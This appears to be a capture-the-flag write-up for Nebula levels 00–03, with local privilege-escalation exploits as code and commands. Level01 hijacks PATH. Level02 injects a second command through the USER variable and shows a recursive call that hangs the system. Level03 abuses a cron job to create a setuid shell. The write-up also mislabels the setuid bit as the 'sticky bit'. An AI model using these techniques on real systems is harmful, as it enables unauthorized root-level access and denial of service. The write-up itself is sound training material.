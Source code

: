 Nebula Exec:

The purpose of every (AFAIK) exercise is to run the command `getflag`
as the user flagXX.

### Level00:

find a program with set uid that will run as the "flag00" user.

Solution


Find the account of the user `flag00` which is in `/home/flag00`
Then run an ls to find his uid:
```
ls -nl /home/flag00
```
With the user id number use the comand find to find a file
```
find / -uid 999
```
The file which we need to find is `/rofs/bin/.../flag00`, when we run this exe
we get a shell with the user `flag00`, now we can run the command `getflag`.


### Level01

Find the vulnerability in this code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}

```

This exercise is related to the `/usr/bin/env` which does not takes any user
defined variables. Which can be good or it can be used to override the system
path.

The quiz asks to find how to use the executable to execute any program.
Here is my solution:
```
$ cat > ~/echo.c
#include <unistd.h>
main()
{
  setresgid(998, 998, 998); // here we use the flag01 uid and gid
  setresuid(998, 998, 998);
  system("/bin/bash");
  0==0;
}
^D
$ gcc echo.c -o echo
$ PATH=/home/level01/:$PATH
$ ./flag01
$ ./getflag
```

What we are doing is to use the fact that env takes the environment variables
like PATH and uses that to execute the commands unless we specify a different
value. Also the system searches the PATH in order, this is why we set our home
directory first in the PATH variable. Then when the `system` is called it finds
our executable `echo` and uses it to acomplish what is being asked in the string

### Level02

The quiz here is the same, exploit the program to execute any program that we
may want.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

This is similar to the last exercise, now we can override the `USER` variable
and use shell logic operators to make the program to execute any input as long
as it is well formed.

Solution:

```
$ cat > ~/create_shell.c
#include <unistd.h>
main()
{
  setresgid(997, 997, 997); // here we use the flag02 uid and gid
  setresuid(997, 997, 997);
  system("/bin/bash");
  0==0;
}
^D
$ gcc create_shell.c -o create_shell
$ USER="msg && create_shell"
$ PATH=/home/level02/:$PATH
$ ./flag02
$ /bin/getflag
```

the ls command can be replaced by our shell or any other command. For example we
could crash/hang/lag the system  by calling the same program recursively:

```
$ USER="msg && ./flag02 && echo"
$ ./flag02
```

### Level03

Check the files in /home/flag03. There is a crontab that is called every couplpe
of minutes.
For this we need to check crontab to see which jobs are scheduled.

There is no description of what is the target for this level, but a search shows
that the target of this level is to execute a bash as the user `flag03`.

For this we can use the calls to `setresuid` and `setresgid` and also the
sticky bit which allows to run the program as the user who created it, not as
the user executing the file.

The solution:

```
$ cat > runme.c
#include <unistd.h> main() {
  setresgid(996,996,996);
  setresuid(996,996,996);
   system("/bin/bash");
    0==0;}
^D
cp runme.c /tmp
```
Now we need the cron job to compile and create an executable for us which will
create a shell for us.
```
#!/bin/bash
gcc /tmp/runme.c -o /home/flag03/shell_flag
chmod +sx /home/flag03/shell_flag
```

Make the last schipt executable and add it to the `writable.d` directory.
Thi will generate an executable with the sticky bit, which will run the program
with the id of the flag03 user, and will create a shell for us. There we can
`getflag`.
